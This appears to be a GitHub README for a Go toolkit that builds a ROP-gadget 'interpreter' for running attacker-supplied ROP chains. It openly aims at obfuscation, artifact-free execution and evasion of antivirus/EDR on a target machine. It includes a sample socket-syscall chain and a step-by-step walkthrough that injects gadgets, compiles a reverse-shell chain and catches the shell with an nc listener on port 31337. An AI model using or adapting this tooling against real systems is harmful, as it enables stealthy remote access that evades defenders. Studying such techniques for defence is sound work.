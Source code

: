 # ROP interpreter

This directory contains tools that demonstrate implementing a very primitive
interpreter using ROP gadgets in Go. @SeungKang helped a ton with this crazy
idea - thank you :)

In theory, a ROP-based interpreter provides:

- Obfuscation against intent and reverse engineering
- More control over code at runtime (i.e., possible to clear payloads from
  memory / avoid leaving behind artifacts)
- Defense against detection by antivirus / EDR (since we are reusing CPU
  instructions that already exist in the executable's code segment)

## How it works

Users first must define a list of ROP gadgets using a tool like `nasm` and
compile the assembly to binary. The ROP gadgets are then injected into the
`runner` program using the `injector` program. The `runner` will act as an
interpreter, reading a user-defined "unresolved ROP chain" at runtime.

In the real world, the `runner` would be executed on the target computer.
A hacker would pass various unresolved ROP chain payloads through an
authenticated network channel to the runner. Here, the `runner` reads
the chain from the filesystem.

Users define a ROP chain in a human-readable format using a ROP chain source
file. This source file is compiled into a binary blob using the `compiler`
program. The resulting blob consists of the ROP gadgets' offsets that the
interpreter must resolve at runtime.

For example, the following source file produces an "unresolved ROP chain"
that executes the `socket` system call:

```
; socket syscall
g: pop rdi; ret
d: 0x02
g: pop rsi; ret
d: 0x01
g: pop rdx; ret
d: 0x06
g: pop rax; ret
d: 0x29
g: syscall; ret
```

## Tooling

- `runner` - Executes an unresolved ROP chain produced by `compiler`
- `injector` - Injects binary ROP gadgets into `runner`
- `compiler` - Translates a human-readable ROP chain source file into
  a binary, "unresolved ROP chain"

## Example

- Requirements:
  - Debian (x86 64-bit CPU)
  - Go
  - nasm
  - netcat (nc)

In this example, we will compile a ROP chain that uses the ROP gadgets
provided by the `runner` program to execute a reverse shell. The reverse
shell will connect to 127.0.0.1 port 31337.

#### 1. Compile the ROP gadgets

```console
$ mkdir build
$ nasm -f bin -o build/rop-gadgets.bin examples/rop-gadgets.asm
```

Note: ROP gadgets can be examined with objdump like so:

```console
$ objdump -D -M intel,x86-64 -b binary -m i386 build/rop-gadgets.bin
(...)
0000000000000000 <.data>:
   0:	c3                   	ret    
   1:	48 89 e7             	mov    rdi,rsp
   4:	41 5a                	pop    r10
   6:	c3                   	ret
(...)
```

#### 2. Build the runner and inject ROP gadgets

```console
$ go build -o build/runner-orig runner/main.go 
$ go run injector/main.go -t elf -f build/runner-orig -n main.RopRegion -i build/rop-gadgets.bin > build/runner-injected
$ chmod +x build/runner-injected
```

#### 3. Compile the ROP chain

```console
$ go run compiler/main.go -gadgets build/rop-gadgets.bin -src examples/reverse-shell-chain.txt > build/reverse-shell-chain.bin
```

#### 4. Start netcat listener

```console
$ nc -v -l -p 31337
listening on [any] 31337 ...
```

#### 5. Run the ROP chain

```console
$ ./build/runner-injected -fork build/reverse-shell-chain.bin
$ 2024/08/25 10:55:09 pc: 0x4a89d7 | pc line: 81 | main: 0x4a87c0 | uncalled: 0x4a8fc0
0xc000093578: 0x4142434445464748
0xc000093580: 0x4a89d7
0xc000093588: 0x51
0xc000093590: 0x18
0xc000093598: 0x4a8fc0
0xc0000935a0: 0xc0000935a0
0xc0000935a8: 0xc0000935a0
(...)
```

#### 6. Check if netcat received a connection

```
connect to [127.0.0.1] from localhost [127.0.0.1] 33130
whoami
user0
```
